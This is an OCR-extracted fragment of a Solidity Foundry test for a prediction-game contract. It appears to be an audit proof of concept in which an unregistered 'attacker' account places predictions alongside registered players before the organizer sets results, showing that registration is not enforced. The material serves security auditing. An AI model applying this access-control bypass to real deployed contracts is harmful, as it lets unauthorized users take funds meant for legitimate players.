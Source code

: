 ```Solidity
            ScoreBoard.Result.Draw
        );
        vm.stopPrank();

        vm.startPrank(stranger2);
        thePredicter.makePrediction{value: 0.0001 ether}(
            1,
            ScoreBoard.Result.Draw
        );
        thePredicter.makePrediction{value: 0.0001 ether}(
            2,
            ScoreBoard.Result.First
        );
        thePredicter.makePrediction{value: 0.0001 ether}(
            3,
            ScoreBoard.Result.First
        );
        vm.stopPrank();

        vm.startPrank(stranger3);
        thePredicter.makePrediction{value: 0.0001 ether}(
            1,
            ScoreBoard.Result.First
        );
        thePredicter.makePrediction{value: 0.0001 ether}(
            2,
            ScoreBoard.Result.First
        );
        thePredicter.makePrediction{value: 0.0001 ether}(
            3,
            ScoreBoard.Result.First
        );
        vm.stopPrank();

        //attacker comes in and makes a prediciton. Doesnt even need to register.
        vm.startPrank(attacker);
        vm.deal(attacker, 1 ether);
        thePredicter.makePrediction{value: 0.0001 ether}(
            1,
            ScoreBoard.Result.First
        );
        thePredicter.makePrediction{value: 0.0001 ether}(
            2,
            ScoreBoard.Result.First
        );
        thePredicter.makePrediction{value: 0.0001 ether}(
            3,
            ScoreBoard.Result.First
        );
        vm.stopPrank();

        vm.startPrank(organizer);
        scoreBoard.setResult(0, ScoreBoard.Result.First);
        scoreBoard.setResult(1, ScoreBoard.Result.First);
        scoreBoard.setResult(2, ScoreBoard.Result.First);
        scoreBoard.setResult(3, ScoreBoard.Result.First);
        scoreBoard.setResult(4, ScoreBoard.Result.First);
        scoreBoard.setResult(5, ScoreBoard.Result.First);
        scoreBoard.setResult(6, ScoreBoard.Result.First);
        scoreBoard.setResult(7, ScoreBoard.Result.First);
        scoreBoard.setResult(8, ScoreBoard.Result.First);
        vm.stopPrank();

```